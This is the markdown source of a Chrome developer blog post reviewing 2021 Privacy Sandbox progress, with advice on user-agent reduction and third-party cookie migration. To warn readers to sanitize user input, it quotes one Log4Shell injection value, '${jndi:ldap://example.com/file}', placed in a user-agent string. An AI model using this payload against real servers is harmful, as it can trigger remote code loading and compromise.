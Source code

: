 ```yaml
---
title: Progress in the Privacy Sandbox (December 2021)
description: >
  Looking back at stats from 2021 and some resolutions for tackling user-agent and cookies in 2022.
layout: 'layouts/blog-post.njk'
date: 2022-01-07
authors:
  - rowan_m
hero: 'image/VWw0b3pM7jdugTkwI6Y81n6f5Yc2/Ut0IykTaEFBuOA5EHqbg.png'
alt: >
  Privacy Sandbox logo
tags:
  - progress-in-the-privacy-sandbox
  - privacy
---
```


Welcome to the 2021 wrap-up edition of **[Progress in the Privacy
Sandbox](/tags/progress-in-the-privacy-sandbox/)**, tracking the milestones on
the path to phasing out third-party cookies in Chrome and working towards a more
private web. Normally, we share an overview of updates to the **[Privacy Sandbox
timeline](https://privacysandbox.com/timeline/)** along with news from across
the project, but December was a quiet month. Instead, we'll look back at some of
the activities over 2021 and provide a few potential resolutions you can make
now we are in the new year.

## Chromium development process

For a new web platform feature to land in Chromium, it needs to go through the
[project's open development
process](https://www.chromium.org/blink/launching-features). In 2021, the
Privacy Sandbox team produced:

<figure>
  <table style="font-size: 140%; font-weight: bold; font-variant-numeric: tabular-nums;">
  <tr><td>🥚</td><td>Intent to Prototype </td>     <td>19</td></tr>
  <tr><td>🧪</td><td>Intent to Experiment</td><td>&nbsp;7</td></tr>
  <tr><td>🚀</td><td>Intent to Ship      </td>     <td>11</td></tr>
  </table>
  <figcaption>
    <a href="https://docs.google.com/spreadsheets/d/e/2PACX-1vR-5YYZ-lxG9xelJFCYM2yajUEWUNKZkiXcWX9BYi8dSUV_5Xrhd5u-iyNNf4w8NAVwrSrVWjeNrC-i/pubhtml#">Source</a>
  </figcaption>
</figure>

Each milestone is also an invitation for the wider web ecosystem to contribute.

An **Intent to Prototype** is the first checkpoint, where we invite discussion
and early experimentation. This means a proposal will be available on GitHub,
where **you can ask a question by creating an Issue** or **[join discussions and
presentations in standards
groups](/docs/privacy-sandbox/cds21-update/#discussion)** such as the W3C and
IETF. This is also where coding begins, which means you can **expect the
prototype functionality to be made available for developer testing behind a
[feature
flag](https://www.chromium.org/developers/how-tos/run-chromium-with-flags)**.
Initial feedback is critical for validating and iterating on proposals.

An **Intent to Experiment** is an optional step if we’d like to request an
origin trial. Developers **can [sign up for the origin
trial](/blog/origin-trials/)** of a feature, and then **test it in production**.
It's called an experiment because we have specific aspects of the feature we
want to validate in real-world environments. Developers that can **test and
share the results of those tests** provide valuable feedback to help iterate and
evolve the feature.

An **Intent to Ship** is the final milestone which signals that a feature is now
complete and ready for general availability. Once approved, the feature is
merged into an upcoming release and then progresses through the Canary, Beta,
and Stable channels. It's critical to ensure you **test your sites with the
[Canary](https://www.google.com/chrome/canary/) and
[Beta](https://www.google.com/chrome/beta/) versions of Chrome** to catch and
report any bugs before a feature reaches Stable.

## Proposals

Each Privacy Sandbox proposal has an accompanying GitHub repository. A
repository hosts an explainer to summarize overall functionality, a detailed
specification for implementation by browsers, and contributions from across the
web ecosystem in the form of Issues and Pull Requests.

Across 14 Privacy Sandbox repositories, we had:

<figure>
  <table style="font-size: 140%; font-weight: bold; font-variant-numeric: tabular-nums;">
    <tr><td rowspan="2">💬</td><td>545</td><td>Issues created</td></tr>
    <tr>                       <td>250</td><td>Issues closed</td></tr>
    <tr><td rowspan="2">🛠️</td><td>261</td><td>Pull Requests created</td></tr>
    <tr>                       <td>223</td><td>Pull Requests merged</td></tr>
  </table>
  <figcaption>
    <a href="https://docs.google.com/spreadsheets/d/e/2PACX-1vR-5YYZ-lxG9xelJFCYM2yajUEWUNKZkiXcWX9BYi8dSUV_5Xrhd5u-iyNNf4w8NAVwrSrVWjeNrC-i/pubhtml#">Source</a>
  </figcaption>
</figure>

The language in explainers and specifications is often targeted to an audience
already familiar with standards and browser development, which can be
challenging if you're unfamiliar with it. However, the aim of an explainer is to
explain! If there are points that are unclear or not covered, **we want you to
raise an Issue** so we can update and clarify the explainer.

## Resolutions

### User-agent spring cleaning

As we were counting _down_ to the New Year, we're also counting _up_ to both
[Chrome 100](/blog/force-major-version-to-100/) and the incremental [reduction
of the user-agent string](/docs/privacy-sandbox/user-agent/). This is a good
motivator to revisit any usage of the user-agent string in your code to check if
it's affected by either of these changes.

To find those areas:

1. Search for `navigator.userAgent` in your JavaScript code, or access to the
   `User-Agent` header in your server code.
2. Check your parsing of the string for assumptions about a 2 digit version. For
   example, a regex that specifies `\d\d` or `\d{2}` should be replaced with
   `\d+`.
3. Check your use of the string for anywhere you rely on the:
    * platform (operating system) version
    * full Chrome build version
    * mobile device name
4. These are the values that will be reduced to fixed strings in the future. If
   you need access to these values, [migrate to User-Agent Client
   Hints](https://web.dev/migrate-to-ua-ch/).

There is one December update to mention—if you are adopting User-Agent Client
Hints, we have sent the **Intent to Ship to [enable delegating hints to other
origins in
HTML](https://groups.google.com/a/chromium.org/g/blink-dev/c/JQ68cvYuiQU/m/S_33YSqxCwAJ)**
via a `<meta>` tag. For example:

```html
<meta name="accept-ch" content="sec-ch-ua-model=( https://foo.bar )">
```

If you're in an enthusiastic spring cleaning mood, you can also consider
alternatives to the use of user-agent altogether. If you're using the string to
detect mobile devices, then investigate if you can replace this with responsive
design. If you're checking the browser name and version for feature support, see
if you can use feature detection instead.

It's always worth remembering that the user-agent, like any client provided
value, is not guaranteed to be accurate or even provided. The recent [Log4j
vulnerability, "Log4shell"](https://logging.apache.org/log4j/2.x/security.html)
provides an example of this risk. A client that sets its user-agent string to
include a value like `${jndi:ldap://example.com/file}` may be able to get a site
to actively parse that on the server.

{% Aside 'caution' %}

It's critical that you treat user-agent in the same way as any other form of
user input: sanitize and validate it before acting on the value.

{% endAside %}

### Cookie cataloguing

Another traditional new year activity is to make sure you're happy that you have
a healthy number of cookies with quality ingredients. As we continue moving
towards the phase out of third-party cookies, you should make sure you know
which of your site's cookies will be affected. 2020 provided a headstart as it
became necessary to [mark all cookies for cross-site or third-party
use](https://web.dev/samesite-cookies-explained/#samesitenone-must-be-secure)
with `SameSite=None`. 

Any cookie where you have set the `SameSite` attribute to `None` will need an
update.

There are three possible routes to consider at the moment:

1. If the cookie is only required in a 1:1 relationship with the top-level site,
   then follow the progress of the **[CHIPS
   proposal](https://github.com/WICG/CHIPS)**. This will mean adding the
   `Partitioned` attribute to the cookie.
2. If the cookie is used in a cross-site context, but only across sites that you
   own and operate, then it may be a candidate for **[First-Party
   Sets](/docs/privacy-sandbox/first-party-sets/)**. This requires defining the
   sites in the set and adding the `SameParty` attribute to the cookie.
3. If the cookie is used to provide some form of shared value across multiple
   sites, investigate the wider set of [Privacy Sandbox
   proposals](/docs/privacy-sandbox/) for an alternative solution that does not
   rely on cross-site tracking.

If you're feeling especially health-conscious, then this is also an ideal time
to revisit all of your cookie usage, as we have a good recipe to improve your
first-party cookies too.

{% YouTube id='1g2uQfP1Q3U' %}

## Feedback

As we continue to publish these monthly updates, and progress through the
Privacy Sandbox as a whole, we want to make sure that developers receive the
information and support that they need. Let us know on [@ChromiumDev
Twitter](https://twitter.com/ChromiumDev) if there's anything that we could
improve in this series. We'll use your input to continue improving the format.

Check out the **[Privacy Sandbox FAQ](/docs/privacy-sandbox/faq/)**, which we
continue to expand based on the issues you submit to the [developer support
repo](https://github.com/GoogleChromeLabs/privacy-sandbox-dev-support). If you
have any questions around testing or implementation on any of the proposals,
come talk to us there.
